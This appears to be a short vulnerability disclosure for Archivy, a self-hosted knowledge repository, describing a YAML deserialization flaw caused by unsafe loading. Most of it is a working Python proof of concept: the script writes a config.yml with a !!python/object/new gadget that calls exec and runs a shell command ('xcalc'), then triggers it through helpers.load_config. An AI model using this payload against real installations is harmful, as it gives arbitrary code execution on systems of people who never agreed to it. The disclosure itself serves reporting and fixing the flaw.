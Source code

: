 # Description
Archivy is a self-hosted knowledge repository that allows you to safely preserve useful content that contributes to your knowledge bank.
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```python
import os
#os.system('pip3 install archivy')
from archivy import helpers
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(exploit)
helpers.load_config('.')
```
* `pip3 install archivy`
* `python3 exploit.py`
